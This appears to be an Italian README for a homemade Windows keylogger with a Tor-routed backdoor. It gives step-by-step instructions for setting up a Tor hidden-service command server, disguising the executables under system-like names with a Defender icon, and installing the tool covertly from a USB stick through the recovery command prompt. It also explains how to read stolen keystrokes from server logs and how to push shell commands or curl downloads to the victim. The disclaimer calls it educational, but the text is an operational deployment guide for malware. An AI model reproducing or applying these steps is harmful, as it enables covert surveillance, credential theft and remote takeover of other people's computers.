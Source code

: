 <pre>
QUESTO PROGETTO É STATO CREATO SOLO A SCOPO EDUCATIVO E SPERIMENTALE, NON USARLO SU PC CHE NON SONO DI TUA PROPRIETÀ O NON FANNO PARTE DEL TUO LAB VIRTUALE!
ANCHE SE I NOMI SCELTI SONO ULTRA STEALTH NON SIGNIFICA CHE DEVE ESSERE USATO IN MODO SBAGLIATO!
Non mi assumo alcuna responsabilità per eventuali danni diretti, indiretti o collaterali derivanti dall’uso improprio o non autorizzato di questo strumento. L’utilizzo avviene esclusivamente sotto la piena responsabilità dell’utente.
  


--------------------------------------- TheHiddenWiredProject ---------------------------------------

Cosa è TheHiddenWiredProject?
TheHiddenWiredProject (THWP) è un keylogger con backdoor integrata pensato per essere ultra stealth
perchè tutto il traffico generato è instradato via Tor!

È sicuro?
Yeah bro, è 100% safe, il codice lo puoi modificare come vuoi senza problemi, mentre Tor ti aiuta
a nascondere il tuo server (serve per ascoltare il keylogger e usare la backdoor).

Quindi devo configurare un server?
Yeah, è necessario per avere un livello di anonimato abbastanza alto

É pronto all'uso?
Assolutamente no, lo devi compilare tu, è ultra facile, continua a leggere che dopo lo spiego

Lo consigli?
Assolutamente si! Questo tool è estremamente compatto, ma nello stesso tempo ultra stealth,
non troveresti mai un keylogger con una backdoor via Tor su internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Avvia proxy, Brain e Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Scaricato dal sito ufficiale, ma rinominato)
wuasrvs.py ---> Avvio di Tor ritardato per evitare errori
installer.bat ---> Installatore da WindowsPE

----------------------------------------------------------------------------------------------------

Passiamo alla teoria noiosa che è necessaria per configurare il server e compilare THWP

Partiamo dai requisiti necessari...

Un PC o una VM con linux (consiglio una distro debian-based come debian, ubuntu, mint.. ecc...)
Una connessione internet stabile (almeno 2Mbitps)

----------------------------------------------------------------------------------------------------
Creare e configurare il server Tor:

#Per evitare problemi diventa root con "sudo su"

#installa apache e tor
sudo apt install apache2 tor

#esegue ad ogni avvio in automatico
sudo systemctl enable apache2
sudo systemctl enable tor

#esegue i demoni
sudo systemctl start apache2
sudo systemctl start tor

#configura il server apache
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (qui ci stanno i comandi che il target eseguirá ogni 60 secondi)

#modifica il file torrc
sudo nano /etc/tor/torrc

#Aggiungi le seguenti informazioni alla fine del file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#La prima stringa "HiddenServiceDir" specifica dove tor andrà a salvare la config del server (NON METTERE DIRECTORY CUSTOM PER EVITARE PROBLEMI, LASCIALA COSÍ)
#La seconda stringa hosta sulla porta 80

#Adesso devi riavviare Tor per rendere effettive le modifiche
sudo systemctl restart tor

#Se hai dubbi vai su: https://community.torproject.org/onion-services/setup/
#Oppure chiedi a ChatGPT

#Adesso devi vedere il tuo dominio su tor, lo puoi vedere con:
cat /var/lib/tor/serverTHWP/hostname

#Per evitare problemi diventa root con "sudo su"

----------------------------------------------------------------------------------------------------

Adesso devi configurare TheHiddenWiredProject per fare in modo che indirizza il traffico verso il tuo dominio,
quindi modifica il file Isass.py, trova una variabile che si chiama "TARGET_ONION" (la trovi all'inizio),
e metti il tuo dominio (quello che finisce per .onion che hai trovato dentro il file hostname)

----------------------------------------------------------------------------------------------------

Adesso é tutto pronto! Puoi testare su una VM Windows il funzionamento, se tutto funziona puoi compilare tutto!

Per compilare tutto é necessaria una macchina Windows, useremo nuitka per trasformare i nostri file in python in eseguibili.

1) Installa Python nella macchina Windows (Non da MStore ma dal sito ufficiale)
2) Adesso apri il terminale e digita: pip install nuitka (Se pip non viene trovato, riavvia Windows dopo aver installato Python)
3) Adesso digita: nuitka --onefile --windows-disable-console file.py

#--onefile = unico file .exe
#--windows-disable-console = no prompt quando viene eseguito

4) Esegui nuitka per ogni file .py (Isass.py, WMIHost.py, wuasrvs.py)
5) Dopo aver compilato tutti i file py devi compilare SecurityHealthSystray.bat con Bat-To-Exe-Converter (Cercalo su internet) NB: INSTALLER.BAT DEVE RIMANERE RAW, NON DEVE ESSERE COMPILATO!
6) Aggiungi l'icona di defender al file .bat dentro il compilatore per avere un .exe con l'icona di Defender
----------------------------------------------------------------------------------------------------

Adesso hai quasi finito!
Copia il progetto compilato dentro una pendrive, copia il file installer.bat nella directory principale della chiavetta, rimuovi la cartella "WPE" 
e il risultato dovrebbe essere questo:

E:\Isass.exe
E:\Installer.bat
E:\SecurityHealthSystray.exe
E:\WMIHost.exe
E:\wuasrv.exe
E:\wuasrvs.exe

Se non corrisponde hai sbagliato qualcosa.


Come lo installo??
1) Avvia Windows
2) Una volta che ti trovi nella schermata di blocco, vai nel menu di spegnimento, tieni premuto "SHIFT" mentre premi su "Riavvia"
3) Dovresti leggere a schermo "Attendere"
4) Dopo il riavvio vai su: Risoluzione dei problemi > Opzioni avanzate > Prompt dei comandi
5) Adesso cerca la lettera della chiavetta (varia da PC a PC), prova dalla C alla J (basta scrivere nel prompt la lettera seguita dai due punti, quindi "c:")
6) Una volta trovata la pendrive esegui installer.bat
7) Il PC si riavvierá da solo e TheHiddenWiredProject sará installato!
8) Divertiti!
----------------------------------------------------------------------------------------------------

Adesso come controllo i tasti premuti?
I tasti premuti vengono salvati nel server su "/var/log/apache2/access.log" in base32 in stack da 32 caratteri, bisogna decodificare da base32 a plaintext, basta cercare su internet "base32 to text", incolli la request e vedi i tasti premuti.

Esempio:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/ORSXG5BBEE======" 404

Prendiamo in considerazione solo la base 32, quindi questa: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA e questa: ORSXG5BBEE======
se la decodifichiamo diventa: 

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

Invece per eseguire codice nella macchina, tramite la backdoor, basta modificare il file: /var/www/html/payloads_httpcmd/default.txt
e scrivere codice shell per Windows, e verrá eseguito con i privilegi dell'utente corrente, possiamo anche scaricare file con curl ed eseguirli.
Ma attenzione, devi fare in modo che il codice shell non venga eseguito in loop, perché cosí rischi di fare casino, quindi una volta che vedi 
la richiesta del payload rimuovi il contenuto di default.txt, altrimenti il codice verrá eseguito ogni 60 secondi!

----------------------------------------------------------------------------------------------------

DIVERTITI IN MODO ETICO E SANO, SENZA FARE DANNI REALI A PERSONE, DATI O SISTEMI CHE NON TI APPARTENGONO!

                                                             Creato al 100% con la testa di ElektroWindows :)

</pre>
